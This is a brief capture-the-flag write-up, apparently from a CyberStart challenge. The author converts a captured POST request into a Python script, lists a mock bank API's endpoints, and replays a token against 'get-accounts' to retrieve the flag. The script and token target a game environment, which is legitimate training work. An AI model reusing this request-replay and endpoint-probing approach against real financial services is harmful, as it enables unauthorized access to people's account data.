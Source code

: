# Off Balance

I copied the post request sent and converted it to python. I then changed the address simply to 'https://cloudninebank.com/'. This shoed me the available links:

    'links': {
        'get-accounts': 'https://cloudninebank.com/get-accounts',
        'get-payments': 'https://cloudninebank.com/get-payments',
        'get-transactions': 'https://cloudninebank.com/get-transactions'
        }
    }

I then edited the script to make a request to 'get-accounts'

Script used:

    import requests, pprint

    headers = {
        'authority': 'cloudninebank.com',
        'sec-ch-ua': '"Chromium";v="94", "Microsoft Edge";v="94", ";Not A Brand";v="99"',
        'sec-ch-ua-mobile': '?0',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 Edg/94.0.992.38',
        'sec-ch-ua-platform': '"Windows"',
        'content-type': 'application/x-www-form-urlencoded',
        'accept': '*/*',
        'origin': 'https://play.cyberstart.com',
        'sec-fetch-site': 'cross-site',
        'sec-fetch-mode': 'cors',
        'sec-fetch-dest': 'empty',
        'referer': 'https://play.cyberstart.com/',
        'accept-language': 'en-GB,en;q=0.9,en-US;q=0.8',
    }

    data = {
    'token': 'CNcsmXX5d50ZQCG5Us4twDi18awV'
    }

    response = requests.post('https://cloudninebank.com/get-accounts', headers=headers, data=data)
    print(response)
    pprint.pprint(response.json())

In the printed response it shows the flag